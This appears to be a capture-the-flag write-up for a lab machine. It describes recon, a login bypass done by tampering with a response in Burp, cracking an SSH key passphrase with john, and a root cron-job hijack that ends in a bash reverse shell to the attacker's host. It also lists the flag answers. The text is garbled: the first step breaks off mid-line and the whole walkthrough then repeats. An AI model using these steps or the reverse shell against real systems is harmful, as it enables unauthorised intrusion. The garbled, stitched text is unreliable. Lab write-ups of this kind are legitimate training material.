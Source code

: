 1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wo1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

 5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"
    - possible user "Paradox"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}
  
8. Ran linpeas on the target machine
   - found a cron job running as root
   - found /etc/hosts as rw to anyone

9. Privilege escalation attempt
   - because the machine has a cronjob that runs a script from overpass.thm/downloads/src/buildscript.sh, I need to create the path in my local machine and open an http server and a nc listener so that the target machine can connect to my machine via the cronjob(after changing the overpass.thm's ip in /etc/hosts)
   - changed overpass.thm's ip in /etc/hosts to my local machine ip
   - opened a nc listener on port 9001 `nc -lnvp 9001`
   - created the necessary paths(./downloads/src/buildscript.sh) so that the cron job fetches the script correctly
   - opened an http server on my local machine so that the curl will refer to my local machine `python3 -m http.server 80`
   - added this shell code to buildscript.sh in my local machine inside /download/src/buildscript.sh
     ```sh
     bash -i >& /dev/tcp/<local-machine-ip>/9001 0>&1
     ```

10. Got root after the cronjob ran and found the flag
    - thm{123cewfa00ey0e6yrt56954386321e61wqa}
rdlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

 5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"
    - possible user "Paradox"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}
  
8. Ran linpeas on the target machine
   - found a cron job running as root
   - found /etc/hosts as rw to anyone

9. Privilege escalation attempt
   - because the machine has a cronjob that runs a script from overpass.thm/downloads/src/buildscript.sh, I need to create the path in my local machine and open an http server and a nc listener so that the target machine can connect to my machine via the cronjob(after changing the overpass.thm's ip in /etc/hosts)
   - changed overpass.thm's ip in /etc/hosts to my local machine ip
   - opened a nc listener on port 9001 `nc -lnvp 9001`
   - created the necessary paths(./downloads/src/buildscript.sh) so that the cron job fetches the script correctly
   - opened an http server on my local machine so that the curl will refer to my local machine `python3 -m http.server 80`
   - added this shell code to buildscript.sh in my local machine inside /download/src/buildscript.sh
     ```sh
     bash -i >& /dev/tcp/<local-machine-ip>/9001 0>&1
     ```

10. Got root after the cronjob ran and found the flag
    - thm{123cewfa00ey0e6yrt56954386321e61wqa}
